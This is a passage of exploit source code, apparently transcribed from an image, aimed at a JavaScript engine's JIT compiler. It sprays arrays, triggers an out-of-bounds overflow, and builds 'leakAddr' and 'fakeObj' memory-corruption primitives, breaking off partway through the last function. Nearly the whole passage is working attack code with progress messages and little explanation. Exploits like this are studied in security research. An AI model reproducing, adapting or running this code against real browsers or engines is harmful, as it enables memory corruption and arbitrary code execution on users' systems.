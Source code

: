 ```
for(let i = 0; i < 0x10; i++){
  arrayWithContiguous[i] = {}
}

b.__defineGetter__(0, () => {
  for(let i = 0; i < 0x8000; i++){
    // we alternate arrays so that when we read out of bounds we can place the desired object directly after it in memory
    if(i % 2 == 0){
      // We use slice to make a copy this replaces new Array(0x10) and will reinitalize the allocator
      sprayedArrays[i] = arrayWithDouble.slice();
    }else{
      sprayedArrays[i] = arrayWithContiguous.slice();
    }
  }
})
print("[+] Triggering the overflow")
let badArray = jitMe(a, b)
// read address from this array
sprayedArrays[0] = arrayWithDouble.slice(); 
// insert address to read into this array and get fake objects from this array
sprayedArrays[1] = arrayWithContiguous.slice();
// insert address of fake objects into this array
sprayedArrays[2] = arrayWithDouble.slice(); 

//eval this code indirectly to prevent weird slow path crash
let postTrigger = `
// helper arrays to do float and integer conversions
var backingBuffer = new ArrayBuffer(8)
var f = new Float64Array(backingBuffer)
var i = new Uint32Array(backingBuffer)

function i2f(num) {
  i[0] = num % 0x100000000
  i[1] = num / 0x100000000
  return f[0]
}

function f2i(num) {
  f[0] = num
  return (i[1] * 0x100000000) + i[0]
}

print("[+] Getting leakAddr and fakeObj primitives")

let NEW_LENGTH = 21
let LEAK_ARRAY_INDEX = 0
let FAKE_ARRAY_INDEX = 1

badArray[19] = NEW_LENGTH;
badArray[39] = NEW_LENGTH;

function leakAddr(obj) {
  sprayedArrays[1][0] = obj;
  let floatAddr = sprayedArrays[LEAK_ARRAY_INDEX][NEW_LENGTH - 1];
  return f2i(floatAddr);
}

function fakeObj(addr) {
  let floatAddr = i2f(addr)
  sprayedArrays[2][0] = floatAddr
  return sprayedArrays[FAKE_ARRAY_INDEX][NEW_LENGTH - 1]
```